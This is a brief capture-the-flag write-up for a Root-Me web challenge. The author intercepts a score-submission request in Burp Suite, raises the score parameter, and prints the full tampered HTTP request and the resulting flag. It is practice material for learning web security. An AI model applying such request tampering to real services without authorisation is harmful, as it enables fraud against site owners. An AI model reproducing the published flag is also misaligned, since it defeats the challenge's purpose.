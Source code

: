 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 11
---
```


> Find a way to beat the top score!

![1](https://github.com/Knign/Write-ups/assets/110326359/969d8be5-78b0-4c0d-a828-25c4cc4fce00)

Let's intercept the request using Burpsuite.

![2](https://github.com/Knign/Write-ups/assets/110326359/c90bf0f9-cb74-478d-b650-ae7a578f94a7)

We can see that the score is `723546`.

Let's send the request to the `Repeater` and set the `score` to a number than `999999`.

## HTTP Request
```
POST /web-serveur/ch56/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challenge01.root-me.org/web-serveur/ch56/
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://challenge01.root-me.org
DNT: 1
Connection: close
Cookie: _ga_SRYSKX09J7=GS1.1.1697428943.14.1.1697429312.0.0.0; _ga=GA1.1.1863804672.1697290591
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

score=9999999&generate=Give+a+try%21
```
Finally, we have to send this modified request to the server.

![3](https://github.com/Knign/Write-ups/assets/110326359/6254eeae-6d00-410b-830f-873fb72ed28f)

## Flag
```
H7tp_h4s_N0_s3Cr37S_F0r_y0U
```
